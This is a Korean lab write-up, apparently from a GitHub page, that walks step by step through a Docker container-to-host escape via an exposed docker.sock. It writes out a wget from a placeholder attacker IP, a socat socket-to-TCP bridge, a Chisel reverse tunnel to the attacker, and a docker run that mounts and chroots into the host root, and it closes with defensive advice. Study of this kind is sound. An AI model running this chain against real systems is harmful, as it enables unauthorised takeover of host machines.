








# 🐳 Docker Container → Host Escape 실습 정리

## ⚠️ 주의
본 문서는 **보안 학습 및 승인된 테스트 환경에서 수행한 실습 기록**이다.  
실제 서비스 환경에 대한 무단 침투나 권한 상승 공격에 사용해서는 안 된다.

본 실습은 **Docker 컨테이너 내부에서 호스트 시스템으로 탈출(Container Escape)** 하는 과정을 이해하기 위한 것이다.

---

# 실습 환경

### 공격자 서버 (Attacker)
```
공격자 퍼블릭 IP
```

### 타겟 서버 (Target Host)
```
Docker Host
 └ 취약한 Docker Container
     └ 공격자가 리버스쉘 획득 상태
```

---

# 1. 리버스 쉘 접속 및 환경 조사

공격자는 먼저 **컨테이너 내부 쉘을 획득한 상태**에서 환경 조사를 수행한다.

## 타겟 서버 (컨테이너 내부)

### 현재 권한 확인

```bash
id
```

예시

```
uid=0(root) gid=0(root)
```

root 권한일 경우 공격 수행이 더 쉬워진다.

---

### Docker Socket 존재 및 컨테이너 환경 확인

```bash
ls -al /var/run/docker.sock
ls /.dockerenv
```


Docker Socket이 존재하면 **컨테이너 내부에서 Docker Engine 제어 가능성이 존재한다.**

.dockerenv 파일이 존재하면 현재 환경이 **Docker 컨테이너 내부**임을 의미한다.

---

# 2️ 공격자 서버에서 파일 전송 준비

공격자 서버에서 **타겟 서버로 파일을 전송하기 위한 임시 HTTP 서버 실행**

## 공격자 서버

```bash
python3 -m http.server 8080
```

이 서버를 통해 타겟 서버가 **공격자 서버에서 파일을 다운로드**할 수 있다.

---

# 3️ 타겟 서버에서 파일 다운로드

## 타겟 서버 (컨테이너 내부)

임시 작업 디렉토리 이동

```bash
cd /tmp
```

---

### 공격자 서버에서 Chisel 다운로드

```bash
wget http://[공격자_IP]:8080/chisel
```

---

### 실행 권한 부여

```bash
chmod +x chisel
```

---

# 4️ Docker Socket → TCP 포트 변환

컨테이너 내부에서 Docker Socket을 TCP 포트로 변환한다.

## 타겟 서버 (컨테이너 내부)

```bash
socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/var/run/docker.sock &
```

동작 구조

```
Docker Socket
/var/run/docker.sock
      │
      ▼
TCP 12345
```

---

# 5️ Reverse Tunnel 생성

컨테이너 내부에서 공격자 서버로 **Reverse Tunnel 생성**

## 타겟 서버 (컨테이너 내부)

```bash
./chisel client <공격자_IP>:8000 R:2375:127.0.0.1:12345 &
```

동작 흐름

```
Docker Socket
      │
      ▼
TCP 12345
      │
      ▼
Chisel Reverse Tunnel
      │
      ▼
Attacker Server :2375
```

---

# 6️ 공격자 서버에서 터널 수신 및 Docker 제어

## 공격자 서버

### Chisel 서버 실행 및 Docker 명령 실행

```bash
./chisel server -p 8000 --reverse
docker -H tcp://127.0.0.1:2375 ps
```


---


이 시점에서 공격자는 **타겟 서버의 Docker Engine을 제어할 수 있다.**

---

# 7. Container Escape (Host 탈출)커

Docker Engine 제어 권한을 이용하여 **호스트 파일 시스템을 마운트한 컨테이너 실행**

## 공격자 서버

```bash
docker -H tcp://127.0.0.1:2375 run -it --rm --net=host -v /:/host_root alpine chroot /host_root
```

옵션 설명

| 옵션 | 설명 |
|---|---|
| `--net=host` | 호스트 네트워크 사용 |
| `-v /:/host_root` | 호스트 전체 파일 시스템 마운트 |
| `chroot /host_root` | 호스트 환경으로 이동 |

---

# 8️ Host 시스템 탈출 확인

```bash
hostname
```


호스트 시스템의 정보가 출력되면 **Container Escape 성공**이다.

---

# 전체 공격 흐름

```
컨테이너 리버스 쉘 획득
        │
        ▼
Docker Socket 존재 확인
        │
        ▼
공격자 HTTP 서버 실행
        │
        ▼
Chisel 다운로드
        │
        ▼
Socat으로 Socket → TCP 변환
        │
        ▼
Chisel Reverse Tunnel 생성
        │
        ▼
공격자 서버에서 Docker Daemon 제어
        │
        ▼
Host filesystem mount
        │
        ▼
Docker Container → Host Escape
```

---

# 보안 대응 방안

### Docker Socket 노출 금지

위험한 설정

```
-v /var/run/docker.sock:/var/run/docker.sock
```

이 설정은 **컨테이너가 Docker Engine을 제어할 수 있게 만든다.**

---

### 최소 권한 컨테이너 실행

```
--cap-drop ALL
--security-opt no-new-privileges
```


---

# 결론

Docker 컨테이너 내부에 **Docker Socket이 노출될 경우 공격자는 Docker Engine을 제어하여 Host Escape를 수행할 수 있다.**

따라서 Docker 환경에서는 다음 보안 정책이 필수적이다.

- Docker Socket 노출 금지
- 최소 권한 컨테이너 실행
- 컨테이너 접근 통제
- Runtime 보안 적용